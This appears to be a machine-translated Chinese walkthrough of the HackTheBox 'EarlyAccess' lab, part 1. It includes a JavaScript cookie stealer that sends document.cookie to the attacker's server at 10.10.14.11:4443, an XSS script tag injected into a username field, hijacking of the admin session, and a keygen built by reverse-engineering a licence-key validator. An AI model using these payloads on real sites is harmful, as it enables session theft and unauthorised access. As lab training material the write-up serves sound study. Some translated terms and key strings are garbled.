# 黑客盒子的早期访问—详细演练—第 1 部分

> 原文：<https://infosecwriteups.com/earlyaccess-from-hackthebox-detailed-walkthrough-part-1-c895ee3f8471?source=collection_archive---------0----------------------->

展示完成盒子所需的所有工具和技术。

# 机器信息


黑客盒子的早期访问

EarlyAccess 在 HackTheBox 上被评为硬机。这是一个又长又复杂的盒子，以一个虚构的游戏开发公司为主题。

我把这个演练分成两部分，因为它相当长！

我们首先注册进入一个论坛，发现有一个 XSS 漏洞。最终，我们找到了一种方法来捕获管理员的会话令牌，并使用它来以他们的身份访问门户。这让我们下载一个密钥生成器，在破译它如何工作后，我们生成一个潜在的列表，并使用 Burp 入侵者进行暴力破解。使用有效的密钥，我们可以登录到一个新的区域，在那里我们发现了一个 SQLi 漏洞，我们用它来转储数据库凭证。这给了我们一个散列值，我们可以破解它来访问网站的第三个区域。在这里，我们使用参数篡改来检索文件，从而发现一个调试函数，让我们最终获得一个反向 shell。一旦进入，我们就在容器中导航，找到一个井字游戏，最终崩溃并获得根。

所需技能是 XXS 和 SQLi 技术的知识。还需要能够理解 Python。学到的技能是更深层次的 Python 和 JavaScript 知识，使用 Burp 入侵者，研究和利用开发技术。

[](https://www.hackthebox.com/home/machines/profile/375) [## 破解机箱::渗透测试实验室—早期访问

### 登录 Hack The Box 平台，让您的笔测试和网络安全技能更上一层楼！

www.hackthebox.com](https://www.hackthebox.com/home/machines/profile/375) 

# 初步侦察

像往常一样，让我们从 Nmap 开始:



盒子的 Nmap 扫描

我们可以从 ssl 证书中看到站点的通用名称。让我们将它添加到 hosts 文件中:

```
┌──(root💀kali)-[~/htb/meta]
└─# echo "10.10.11.110 earlyaccess.htb" >> /etc/hosts
```

# 曼巴网站

我们可以浏览这个网站，它看起来不错:


曼巴网站

但是没有内容，我们在这里注册一个账号吧:



在 Mamba 上注册帐户

我们在仪表板这里结束:



曼巴仪表板

环顾四周，我在论坛上发现了这个帖子:



曼巴论坛帖子

一个明确的线索表明我们在某个地方有 SQLi。在消息区域，单击联系我们，您可以向管理员发送消息:


将消息作为测试发送

当它发出后，您会收到以下消息:



来自系统的消息回复

另一条线索是，这条线索表明有一个脚本正在运行以读取发送的信息。

# XSS 利用

我花了很长时间才想出下一步该做什么！第一个线索是，用户名是脆弱的，原来你可以用它做 XSS。所以首先我找到了这个:

```
function httpGet(theUrl)
{
        var xmlHttp = new XMLHttpRequest();
        xmlHttp.open("GET", theUrl, false);
        xmlHttp.send(null);
        return xmlHttp.responseText;
}
httpGet("https://10.10.14.11:4443/"+document.cookie);
```

我已经把它保存到 Kali 上的一个名为 pencer.js 的文件中，然后在那里启动一个 web 服务器，这样机器就可以访问它。

现在，我们需要在个人资料页面的我的用户名中使用 XSS 来调用它:



名称字段中的 XSS 有效负载

在这里，我刚刚添加了一个简单的 XSS 回调函数到我的 Kali IP 来获取 pencer.js 文件:

```
<script src="https://10.10.14.11:4443/pencer.js" />
```

然而这没有用:



Python web 服务器

所以我试了一个 PHP 服务器，它给了我更多的信息:

```
┌──(root💀kali)-[~/htb/earlyaccess]
└─# php -S 0.0.0.0:4443
[Sun Jan 30 21:58:19 2022] PHP 7.4.26 Development Server (http://0.0.0.0:4443) started
[Sun Jan 30 22:08:17 2022] 10.10.11.110:41902 Accepted
[Sun Jan 30 22:08:17 2022] 10.10.11.110:41902 Invalid request (Unsupported SSL request)
[Sun Jan 30 22:08:17 2022] 10.10.11.110:41902 Closing
```

# Python HTTPS 服务器

我忘记了该网站是 HTTPS，所以我的服务器在卡利需要有能力，以及。我搜索了一个 python https 服务器，找到了[这个](https://stackoverflow.com/questions/19705785/python-3-simple-https-server)，我只是更改了服务器地址和 pem 文件名:

```
import http.server, ssl
server_address = ('0.0.0.0', 4443)
httpd = http.server.HTTPServer(server_address, http.server.SimpleHTTPRequestHandler)
httpd.socket = ssl.wrap_socket(httpd.socket, server_side=True, certfile='pencer.pem', ssl_version=ssl.PROTOCOL_TLS)
httpd.serve_forever()
```

为了创建与我的 Python HTTPS 服务器一起使用的 pem 文件，我使用了[这个](https://github.com/3gstudent/pyXSSPlatform)来向我展示正确的 opennssl 命令:

```
┌──(root💀kali)-[~/htb/earlyaccess]
└─# openssl req -new -x509 -keyout pencer.pem -out pencer.pem -days 3650 -nodes
Generating a RSA private key
.......+++++
............................................+++++
writing new private key to 'pencer.pem'
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:
State or Province Name (full name) [Some-State]:
Locality Name (eg, city) []:
Organization Name (eg, company) [Internet Widgits Pty Ltd]:
Organizational Unit Name (eg, section) []:
Common Name (e.g. server FQDN or YOUR name) []:
Email Address []:
```

现在启动 Python HTTPS 服务器:

```
┌──(root💀kali)-[~/htb/earlyaccess]
└─# python3 https-server.py
```

然后切换回盒子，像之前一样发送另一条消息:



发送另一条测试消息

# 管理员 Cookie 窃取者

等待几分钟，如果一切都按计划进行，我们会看到 box 进行联系，我们的 cookie 窃取 JavaScript 文件被拉回到 box，它将 admin 用户 cookie 返回给我们:



Python HTTPS 服务器捕获响应

请注意，返回了两个 cookiess，XRSF-TOKEN 和 earlyaccess_session，我们需要第二个 cookie，我将它剪成这样:



从响应中删除 earlyaccess_session cookie

只需复制两次剪切后的文本，并使用 Cookie 编辑器或类似工具将其粘贴到浏览器中:



编辑 cookie 并粘贴新的

# 管理员访问

保存 cookie 并刷新以管理员身份登录仪表板:



刷新并查看我们是管理员

菜单显示了两个新的子域，将它们添加到 hosts 文件中:

```
┌──(root💀kali)-[~/htb/earlyaccess]
└─# sed -i '/10.10.11.110 earlyaccess.htb/ s/$/ dev.earlyaccess.htb game.earlyaccess.htb/' /etc/hosts
```

目前，开发和游戏子网站是一个死胡同，因为他们导致登录页面。管理部分只有两部分工作。下载备份一个:



密钥验证备份

# 密钥验证程序脚本

这里我们需要下载密钥验证器的备份，所以现在就下载吧。

在“验证游戏密钥”部分，我们将输入使用刚刚下载的备份创建的密钥:



验证游戏密钥

切换到终端并解压缩备份:

```
┌──(root💀kali)-[~/htb/earlyaccess]
└─# unzip backup.zip
Archive:  backup.zip
  inflating: validate.py
```

运行 Python 脚本，我们得到如下结果:

```
┌──(root💀kali)-[~/htb/earlyaccess]
└─# python3 validate.py
        # Game-Key validator #
        Can be used to quickly verify a user's game key, when the API is down (again).
        Keys look like the following:
        AAAAA-BBBBB-CCCC1-DDDDD-1234
        Usage: validate.py <game-key>
```

这个脚本不是很长，但是如果你不理解 Python 的话，很难理解。它基本上有五个部分，每个部分创建一个我们在上面的例子中看到的密钥部分。我用[这个](https://www.programiz.com/python-programming/online-compiler)在线 Python 编译器来玩每个部分，弄清楚它做了什么。

让我们依次来看，我们可以看到第一部分有五个字符长。验证我们输入的脚本部分在这里:

```
def g1_valid(self) -> bool:
    g1 = self.key.split('-')[0]
    r = [(ord(v)<<i+1)%256^ord(v) for i, v in enumerate(g1[0:3])]
    if r != [221, 81, 145]:
        return False
    for v in g1[3:]:
        try:
            int(v)
        except:
            return False
    return len(set(g1)) == len(g1)
```

它获取第一个破折号之前的数字，并对前三个字符执行[模](https://pythonguides.com/percent-sign-mean-in-python)和[序数](https://www.askpython.com/python/built-in-methods/python-chr-and-ord-methods)求和，以检查它们是否等于十进制值 221、81 和 145。然后，它检查字符 4 和 5 是整数，这些可以是任何数字。

更改上面的内容，我们可以根据总和测试字母表中的每个字符，结果是:

```
import string
g1_numbers=[221, 81, 145]
g1_results=""
i=0
for a in g1_numbers:
    for b in [c for c in string.ascii_uppercase+string.digits]:
        if (ord(b)<<i+1)%256^ord(b) == a:
            g1_results+=b
    i+=1
g1_results+="10"
print (g1_results)
```

我们的钥匙看起来像第一组的钥匙 10。接下来，从脚本中我们可以看到:

```
def g2_valid(self) -> bool:
   g2 = self.key.split('-')[1]
   p1 = g2[::2]
   p2 = g2[1::2]
   return sum(bytearray(p1.encode())) == sum(bytearray(p2.encode()))
```

这个只是使用[双冒号](https://blog.finxter.com/python-double-colon/)函数从传递给它的五个字符中提取元素来检查 p1 是否等于 p2。然后它[编码](https://www.programiz.com/python-programming/methods/string/encode)字符串值并转换成[字节数组](https://www.geeksforgeeks.org/python-bytearray-function)。

就像我拿走代码之前一样，修改它以便我可以测试值:

```
g2 = "0A0O0"
p1 = g2[::2]
p2 = g2[1::2]
print (sum(bytearray(p1.encode())))
print (sum(bytearray(p2.encode())))
```

我只是摆弄了一下 g2 的值，发现 0A0O0 给出的输出是 144，144 满足检查，所以我知道 0A0O0 是有效的。

我们的密钥现在看起来像这个密钥 10–0a0o 0。

第三组接下来，脚本是这样的:

```
def g3_valid(self) -> bool:
    # TODO: Add mechanism to sync magic_num with API
    g3 = self.key.split('-')[2]
    if g3[0:2] == self.magic_value:
        return sum(bytearray(g3.encode())) == self.magic_num
    else:
        return False
```

我们还需要查看脚本的开头，以理解 magic_value 和 magic_num 是什么:

```
magic_value = "XP" # Static (same on API)
magic_num = 346 # TODO: Sync with API (api generates magic_num every 30min)
```

由此我们知道前两个字符需要是 XP。脚本还告诉我们接下来的两个字符是字母，最后一个字符是数字。最后，我们知道这剩下的三个字符与 XP 组合在一起被编码，然后转换成 bytearray，然后求和。这需要等于幻数，我们看到它每 30 分钟就会改变一次。这意味着我们需要计算所有可能的值，然后在站点上依次尝试每一个值，看哪一个在该点是有效的。

如果我们假设 AA0 是最后三个字符的第一个可能组合，那么我们知道幻数的最小值是 178，我们可以检查:

```
magic_value="AA0"
print (sum(bytearray(magic_value.encode())))
```

现在我们只需要做三个循环来尝试每个可能的组合，并返回任何大于我们的幻数的组合:

```
import string
magic_num=178
for a in [x for x in string.ascii_uppercase]:
    for b in [x for x in string.ascii_uppercase]:  
        for c in [x for x in string.digits]:
            last_3_chars=a+b+str(c)
            if sum(bytearray(last_3_chars.encode())) > magic_num:
                g3="XP"+last_3_chars+"-"
                magic_num+=1
                print (g3)
```

接下来是第四组。以下是脚本:

```
def g4_valid(self) -> bool:
        return [ord(i)^ord(g) for g, i in zip(self.key.split('-')[0], self.key.split('-')[3])] == [12, 4, 20, 117, 0]
```

这个简单一点。它只是获取我们为第一个组找到的值，并使用 Python [zip](https://realpython.com/python-zip-function/) 函数用第四个组的值创建一个元组。然后，它对这两个序数进行[异或](https://www.kite.com/python/answers/how-to-take-the-bitwise-xor-of-two-strings-in-python)运算，并检查结果是否与 12、4、20、117 和 0 这五个给定的数字相同。

我们可以改变一下，找出第四组是什么:

```
import string
g1_result="KEY10"
g4_values = [12, 4, 20, 117, 0]
g4_result=""
test_values = [a for a in string.ascii_uppercase+string.digits]
i=0
for b in g1_result:
    for c in test_values:
        if ord(b) ^ ord(c) == g4_values[i]:
            g4_result+=c
            i+=1
            break
print (g4_result)
```

由此我们发现第四组是 GAMD0。

我们的密钥看起来像这个密钥 99–0a0o 0-xpaa 0-gamd 0。

第五组由脚本的两个不同部分处理:

```
def calc_cs(self) -> int:
    gs = self.key.split('-')[:-1]
    return sum([sum(bytearray(g.encode())) for g in gs])def cs_valid(self) -> bool:
    cs = int(self.key.split('-')[-1])
    return self.calc_cs() == cs
```

我猜 cs 是校验和，因为这一组只是检查其他四组是否有效。在编码、转换成 bytearray 和求和之后，我们将从 calc_cs 获得一个基于键的四个部分的值。这与转换成整数的密钥的相同的四个部分相比较。

我们可以看到第一个可能的键的值是多少:

```
gs="KEY10-0A0O0-XPAA0-GAMD0-0000"
cs = (gs.split('-')[:-1])
checksum = sum([sum(bytearray(g.encode())) for g in cs])
print (str(checksum))
```

现在我们知道了密钥的每一部分是如何生成的，我们可以把上面的放在一起，创建一个脚本，给出所有可能密钥的列表。实际上只有 59 个键，比我最初想的要少。

五组中有三组是静态的，我们可以简化脚本，只计算 59 个变量的列表:

```
import string
magic_num=178
for a in [x for x in string.ascii_uppercase]:
    for b in [x for x in string.ascii_uppercase]:  
        for c in [x for x in string.digits]:
            last_3_chars=a+b+str(c)
            if sum(bytearray(last_3_chars.encode())) > magic_num:
                g3="XP"+last_3_chars
                magic_num+=1
                cs = ["KEY10", "0A0O0", g3, "GAMD0"]
                checksum = sum([sum(bytearray(g.encode())) for g in cs])
                print ("KEY10-0A0O0-"+g3+"-GAMD0-"+(str(checksum)))
```

将它保存到 Kali 上的一个文件中，然后运行它:

```
┌──(root💀kali)-[~/htb/earlyaccess]
└─# python3 keygen.py
KEY10-0A0O0-XPAA1-GAMD0-1294
KEY10-0A0O0-XPAA2-GAMD0-1295
KEY10-0A0O0-XPAA3-GAMD0-1296
KEY10-0A0O0-XPAA4-GAMD0-1297
KEY10-0A0O0-XPAA5-GAMD0-1298
KEY10-0A0O0-XPAA6-GAMD0-1299
<SNIP>
```

让我们在这里停下来，因为这已经是一个漫长的旅程了。我将在[第 2 部分](/earlyaccess-from-hackthebox-detailed-walkthrough-part-2-ab26956b36de)中继续，在那里我们在使用 SQLi 转储散列后获得了对盒子的访问权。然后，我们将查看其中的容器，并找到升级到 root 的方法。

如果你喜欢这篇文章，请给我一两个掌声(这是免费的！)

推特—[https://twitter.com/pencer_io](https://twitter.com/pencer_io)
网站— [https://pencer.io](https://pencer.io/)

*原载于 2022 年 2 月 8 日*[*https://pencer . io*](https://pencer.io/ctf/ctf-htb-earlyaccess)*。*